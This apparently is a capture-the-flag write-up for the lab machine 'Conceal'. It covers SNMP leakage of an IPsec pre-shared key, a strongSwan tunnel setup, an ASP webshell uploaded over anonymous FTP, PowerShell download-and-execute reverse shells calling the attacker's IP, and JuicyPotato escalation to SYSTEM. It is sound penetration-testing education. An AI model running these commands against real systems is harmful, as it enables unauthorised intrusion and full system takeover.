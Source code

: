 # Conceal

This is the write-up for the box Conceal that got retired at the 18th May 2019.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.116    coneal.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/conceal.nmap 10.10.10.116
```

```markdown
Nmap scan report for 10.10.10.116
Host is up (0.048s latency).
All 1000 scanned ports on 10.10.10.116 are filtered
```

There is no port open so we need to do different scans to get any information. 

Full TCP port scan for all 65535 ports:
```markdown
nmap -p- -o nmap/conceal-alltcp.nmap 10.10.10.116
```

UDP scan:
```markdown
nmap -sU -o nmap/conceal-1000udp.nmap 10.10.10.116
```

```markdown
Not shown: 999 open|filtered ports
PORT    STATE SERVICE
500/udp open  isakmp
```

### Checking SNMP

Before we get into the results of the scans we can check for SNMP strings manually. We can use **snmpwalk** or a more verbose tool called **snmp-check**:
```markdown
snmp-check 10.10.10.116
```

We get a lot of interesting results that I put in a file in this folder called **conceal-snmp_check.txt** but here is the interesting stuff:
- IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
- Windows Version 6.3 (Build 15063)
- User: Destitute
- Network Interfaces with IKEv2, PPTP, L2TP
- Listening TCP ports: 
  - 21 - FTP 
  - 80 - HTTP 
  - 135 - Microsoft RPC
  - 139 - NetBIOS
  - 445 - SMB
- Listening UDP ports: 
  - 123 - NTP
  - 161 - SNMP
  - 500 - IPSec / IKE
  - 4500 - IPSec NAT Traversal
  - 5050 - Unknown
  - 5353 - Multicast DNS
  - 5355 - LLMNR
  - 137 - NetBIOS Name Service
  - 138 - NetBIOS Datagram Service
  - 1900 - Microsoft SSDP (UPnP)
  - 53226 - Unknown
  - 53227 - Unknown


## Checking IPSec

The fact that the UDP port 500 is open and we get this IKE VPN password PSK means we need to look further into **IPSec VPN**.
First try to crack the password manually or search for it on hashes.org and it says:
> Dudecake1!

We can test if we get a response back from the IKE service:
```markdown
ike-scan -M 10.10.10.116
```

```markdown
10.10.10.116    Main Mode Handshake returned
        HDR=(CKY-R=befc472fa43aa6a0)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
        VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
        VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
        VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
        VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
        VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
        VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)
```

We need to focus on the **SA (Security Association)** that is:
- Encrypted in 3DES
- Hashed in SHA1
- Authentication with a PSK that we have
- Life Duration of it is 0x00007080 = 28800 seconds = 8 hours

Now that we have all the important information we need a IPSec Tunneling program called **strongswan**.

### Configuring strongswan

In the `manpage` for `ipsec.secrets` we find an example how to configure an IPSec tunnel:
```markdown
# /etc/ipsec.secrets - strongSwan IPsec secrets file
192.168.0.1 %any : PSK "v+NkxY9LLZvwj4qCC2o/gGrWDF2d21jL"
```

So we add this line to the **/etc/ipsec.secrets** file:
```markdown
10.10.10.116 %any : PSK "Dudecake1!"
```

Whenever we make an IPSec connection through stongswan to the box it uses this PSK.

Next we need to configure **/etc/ipsec.conf** and the help for that we can find in `man ipsec.conf`.
Everything we configure here is with information we already have:
```markdown
conn Conceal
        type=transport
        keyexchange=ikev1
        left=10.10.14.10
        leftprotoport=tcp
        right=10.10.10.116
        rightprotoport=tcp
        authby=psk
        esp=3des-sha1
        ike=3des-sha1-modp1024
        ikelifetime=8h
        fragmentation=yes
        auto=start
```

Starting the IPSec VPN connection:
```markdown
ipsec start --nofork
```

We are now connected and can verify that by doing a port scan on port 445 from which we know that it should be open:
```markdown
nmap -sT -p 445 -Pn 10.10.10.116
```

```markdown
PORT    STATE SERVICE
445/tcp open  microsoft-ds
```

Now this port says open and we can enumerate the running services we know from the SNMP scan.

## Checking FTP and HTTP (Port 21 and 80)

Anonymous login on FTP works with no files in there but we can upload files to it.

If we browse to the web page we see the IIS default page and after some enumerating paths we find **/uploads** where it shows the files we uploaded to FTP.
As **ASPX** does not work but **ASP** does we can upload an .asp file to get a webshell and have command execution.

We want to execute a reverse shell. I will take the on from _Nishang_ and it will listen on my IP and port 9001 and execute revshell.ps1:
```markdown
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/revshell.ps1')"
```

We now started a reverse shell session with the user _Destitute_ can read the first flag.

## Privilege Escalation

If we look at the privileges of the user _Destitute_ with `whoami /all` we can see the following:
```markdown
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The **SeImpersonatePrivilege** privilege is enabled and this is what we want to abuse with the local privilege escalation tool **JuicyPotato**.

When uploading this .exe file over FTP we need to set the FTP mode to `binary` and then `put JuicyPotato.exe`.
We create a .bat file with the same command as we invoked into the webshell to spawn a new reverse shell with higher privileges:
```bat
REM This is rootshell.bat

powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/rootshell.ps1')"
```

After uploading the file we can execute JuicyPotato.exe:
```markdown
.\JuicyPotato.exe -t * -p C:\Users\destitute\Documents\revshell.bat -l 9002 -c '{e60687f7-01a1-40aa-86ac-db1cbf673334}'
```

Normally it tries the CLSID of BITS but that won't escalate our privileges so we take the **CLSID of wuauserv** which is _{e60687f7-01a1-40aa-86ac-db1cbf673334}_.
We can a list of CLSID here: [JuicyPotato CLSID list](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/).

When the program successfully runs, our second reverse shell spawns a shell with the user _NT Authority\SYSTEM_ and we rooted the box!
